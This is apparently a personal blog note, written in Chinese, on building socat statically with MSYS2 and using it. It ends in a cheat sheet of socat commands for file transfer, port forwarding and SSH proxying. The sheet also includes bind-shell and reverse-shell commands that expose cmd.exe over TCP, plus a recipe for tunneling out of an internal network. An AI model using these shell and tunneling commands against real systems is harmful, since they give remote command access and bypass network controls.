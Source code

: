 ```yaml
---
author: XhstormR
categories:
- Notes
date: 2020-01-28T21:49:39+08:00
title: 构建 socat
---
```


<!--more-->

Updated on 2020-01-28

> {{< image "uploads/doorway.svg" "doorway" "1" "1" >}}
>
> [MSYS2](https://mirrors.tuna.tsinghua.edu.cn/msys2/distrib/msys2-x86_64-latest.tar.xz)
>
> [socat](http://www.dest-unreach.org/socat/download/socat-1.7.3.4.tar.gz)

## Step
```bash
D:\Work\Download\socat>

pacman -Syu
pacman -S --noconfirm --needed gcc make libreadline-devel

./configure CFLAGS='-s -static -Os' && make
```

```bash
单向模式:
-u in -> out
-U out <- in

Bind Shell
----
LHOST:
ncat 127.0.0.1 1234
or
socat tcp-connect:127.0.0.1:1234 readline
RHOST:
socat tcp-listen:1234,fork,reuseaddr exec:"cmd",pty,stderr

Reverse Shell
----
LHOST:
socat tcp-listen:1234,fork,reuseaddr readline
RHOST:
socat tcp-connect:127.0.0.1:1234 exec:"cmd",pty,stderr

单进程应用 -> 多进程服务
----
LHOST:
socat -u tcp-connect:127.0.0.1:1234 -
RHOST:
socat -U tcp-listen:1234,fork,reuseaddr exec:"busybox ps",pty,stderr

监听端口
----
LHOST:
socat tcp-listen:1234,fork,reuseaddr -
RHOST:
ncat 127.0.0.1 1234
or
curl 127.0.0.1:1234

端口转发
----
socat tcp-listen:1234,fork,reuseaddr tcp-connect:192.168.1.19:3389

写入文件
----
echo 123 | socat -u - ./123.txt
or
echo 123 | socat -u - open:123.txt,wronly,create,append

读取文件
----
socat -U - ./123.txt
or
socat -U - open:123.txt,rdonly

文件传输
----
LHOST:
socat -u tcp-connect:127.0.0.1:1234 open:123.txt,wronly,create,trunc
RHOST:
socat -U tcp-listen:1234,fork,reuseaddr open:123.txt,rdonly

内网穿透（不推荐）
----
公网：
socat tcp-listen:1234,fork,reuseaddr tcp-listen:8080
内网：
socat tcp-connect:47.98.135.65:1234 tcp-connect:192.168.1.19:80
客户端：
curl 47.98.135.65:8080

SSH 设置 HTTP PROXY
----
ssh -o ProxyCommand='socat - PROXY:127.0.0.1:%h:%p,proxyport=8080' root@192.168.2.2
```

## Reference
* http://www.dest-unreach.org/socat/doc/socat.html
